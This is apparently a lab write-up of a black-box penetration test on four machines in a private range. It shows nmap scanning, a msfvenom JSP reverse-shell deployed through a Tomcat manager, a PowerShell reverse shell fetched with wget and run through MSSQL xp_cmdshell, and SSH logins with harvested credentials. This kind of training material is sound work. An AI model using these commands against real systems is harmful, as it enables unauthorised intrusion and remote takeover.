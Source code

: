 ```yaml
---
description: >-
  You have been engaged in a Black-box Penetration Test (172.16.64.0/24 range).
  Your goal is to read the flag file on each machine.
---
```


# Black Box Test 1

## Discover live hosts on the network

```bash
sudo nmap -sn 172.16.64.0/24 --exclude 172.16.64.10 -oN hostAlive.nmap
cat hostAlive.nmap | grep for | awk {'print $5'} > ips.txt
sudo nmap -sV -n -v -Pn -p- -T4 -iL ips.txt -A --open -oG portScan.grep
```

{% hint style="info" %}
Find more [**nmap options**](https://ferx.gitbook.io/wiki/linux/command-line/nmap).
{% endhint %}

### Hosts Alive

| Host | OS |
| :--- | :--- |
| 172.16.64.101 | Linux |
| 172.16.64.140 | Linux |
| 172.16.64.182 | Linux |
| 172.16.64.199 | Windows |

## Open Ports and Running Services

###  172.16.64.101

| Port Number | Service | Version |
| :--- | :--- | :--- |
| 22 | ssh | OpenSSH 7.2p2 |
| 8080 | http | Apache Tomcat/Coyote JSP engine 1.1 |
| 9080 | http | Apache Tomcat/Coyote JSP engine 1.1 |

### 172.16.64.140

| Port Number | Service | Version |
| :--- | :--- | :--- |
| 80 | http | Apache httpd 2.4.18 |

### 172.16.64.182

| Port Number | Service | Version |
| :--- | :--- | :--- |
| 22 | ssh | OpenSSH 7.2p2 |

### 172.16.64.199

| Port Number | Service | Version |
| :--- | :--- | :--- |
| 135 | msrpc | Microsoft Windows RPC |
| 139 | netbios-ssn | Microsoft Windows netbios-ssn |
| 445 | microsoft-ds |  |
| 1433 | ms-sql-s | Microsoft SQL Server 2014 |

## Machines

### 172.16.64.101

Apache Tomcat has [http://172.16.64.101:8080/manager/html](http://172.16.64.101:8080/manager/html) as a management url. In case your authentication fail several times, a 401 page is presented, with a default username and password:

![](../../.gitbook/assets/image.png)

```bash
# Terminal 1
nc -l -p 8080

# Terminal 2
msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.16.64.10 LPORT=8080 -f war -o revshell.war

# 1. Upload to http://172.16.64.10/manager/html
# 2. Open the suggested url in your browser to execute the reverse shell
# 3. Go to your opened nc listener on Terminal one and execute:
find / | grep flag.txt
/home/developer/flag.txt
/home/adminels/Desktop/flag.txt

# Your results should be something like:
cat /home/developer/flag.txt
Congratulations, you got it!
cat /home/adminels/Desktop/flag.txt
You did it!
```

### 172.16.64.140

Using Dirbuster we find a secret folder called **project**. This url is accessible under **admin/admin** credentials.

![](../../.gitbook/assets/image%20%281%29.png)

![We find suspicious files under /project/backup/test](../../.gitbook/assets/image%20%283%29.png)

![](../../.gitbook/assets/image%20%282%29.png)

{% embed url="http://172.16.64.140/project/backup/test/sdadas.txt" %}

```text
Driver={SQL Server};Server=foosql.foo.com;Database=;Uid=fooadmin;Pwd=fooadmin;
/var/www/html/project/354253425234234/flag.txt
```

### 172.16.64.199

```bash
# Grab payload
wget https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1;

# Substitute ip and port
sed -i 's/127.0.0.1/172.16.64.10/; s/413/1234/' mini-reverse.ps1

# Encode payload
cat mini-reverse.ps1 | iconv -f ascii -t utf16 | tail -c +3  | base64 -w 0 > encoded_payload
cat encoded_payload # We'll use this payload in our shell
# Open listener In your terminal
```

```bash
nc -lvnp 1234
```

```bash
# Use the credentials found in the fuzzed file under 
# project/backup/test in the previous machine
python3 /usr/share/doc/python3-impacket/examples/mssqlclient.py fooadmin:fooadmin@172.16.64.199
enable_xp_cmdshell
RECONFIGURE
xp_cmdshell whoami
xp_cmdshell powershell -e <payload_from_previous_step>
```

```text
cd c:\
where /r c:\ flag.txt
cd c:\Users\AdminELS\Desktop\
cat flag.txt
Congratulations! You exploited this machine! 
PS C:\Users\AdminELS\Desktop> cat id_rsa.pub
ssh-rsa AAAAB3NzaC1yc2EAAAABJQAAAQEAlGWzjgKVHcpaDFvc6877t6ZT2ArQa+OiFteRLCc6TpxJ/lQFEDtmxjTcotik7V3DcYrIv3UsmNLjxKpEJpwqELGBfArKAbzjWXZE0VubmBQMHt4WmBMlDWGcKu8356blxom+KR5S5o+7CpcL5R7UzwdIaHYt/ChDwOJc5VK7QU46G+T9W8aYZtvbOzl2OzWj1U6NSXZ4Je/trAKoLHisVfq1hAnulUg0HMQrPCMddW5CmTzuEAwd8RqNRUizqsgIcJwAyQ8uPZn5CXKWbE/p1p3fzAjUXBbjB0c7SmXzondjmMPcamjjTTB7kcyIQ/3BQfBya1qhjXeimpmiNX1nnQ== rsa-key-20190313###ssh://developer:dF3334slKw@172.16.64.182:22#############################################################################################################################################################################################
```

We find at the end of the `id_rsa.pub` file there are some ssh credentials for the remaining active machine:

### 172.16.64.182

We use the credentials harvested in the Windows machine:

```bash
sshpass -p dF3334slKw ssh developer@172.16.64.182
developer@xubuntu:~$ find . | grep flag
developer@xubuntu:~$ cat flag.txt 
Congratulations, you got it!
```

